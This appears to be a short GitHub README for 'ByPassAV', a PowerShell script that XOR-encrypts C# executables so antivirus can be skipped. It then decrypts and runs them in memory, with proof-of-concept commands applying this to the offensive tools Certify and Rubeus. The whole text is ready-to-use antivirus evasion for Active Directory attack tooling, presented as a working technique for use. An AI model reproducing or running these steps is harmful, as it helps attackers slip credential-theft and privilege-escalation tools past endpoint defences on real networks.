 # ByPassAV


According to the documentation for [Certify](https://github.com/GhostPack/Certify) to be run from powershell.

This encrypts using XOR and the AV can be skipped.

> *Note: Only works with C# Executables*

## POC Certify
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.exe -Encrypt -OutPut c:\temp\certify.enc
```

### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.enc -Decrypt
[Certify.Program]::Main("find /vulnerable".split())
```

## POC Rubeus
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Rubeus.exe -OutPut C:\temp\rubeus.enc -Encrypt
```
### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\rubeus.enc -Decrypt
[Rubeus.Program]::Main("".split())
```